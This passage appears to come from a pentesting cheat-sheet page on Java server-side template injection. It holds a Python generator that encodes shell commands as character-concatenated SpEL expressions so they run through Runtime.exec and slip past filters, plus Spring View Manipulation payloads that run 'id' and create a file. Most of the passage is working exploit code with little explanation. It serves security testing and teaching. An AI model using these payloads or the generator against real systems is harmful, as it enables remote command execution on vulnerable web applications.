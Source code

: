 - Custom Script for payload generation
    



```
#!/usr/bin/python3

## Written By Zeyad Abulaban (zAbuQasem)
# Usage: python3 gen.py "id"

from sys import argv

cmd = list(argv[1].strip())
print("Payload: ", cmd , end="\n\n")
converted = [ord(c) for c in cmd]
base_payload = '*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec'
end_payload = '.getInputStream())}' 

count = 1
for i in converted:
    if count == 1:
        base_payload += f"(T(java.lang.Character).toString({i}).concat"
        count += 1
    elif count == len(converted):
        base_payload += f"(T(java.lang.Character).toString({i})))"
    else:
        base_payload += f"(T(java.lang.Character).toString({i})).concat"
        count += 1

print(base_payload + end_payload)
```

**More Information**

- [Thymleaf SSTI](https://javamana.com/2021/11/20211121071046977B.html)
    
- [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---retrieve-etcpasswd)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-view-manipulation-java)

Spring View Manipulation (Java)



```
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("id").getInputStream()).next()}__::.x
__${T(java.lang.Runtime).getRuntime().exec("touch executed")}__::.x
```

- [https://github.com/veracode-research/spring-view-manipulation](https://github.com/veracode-research/spring-view-manipulation)
    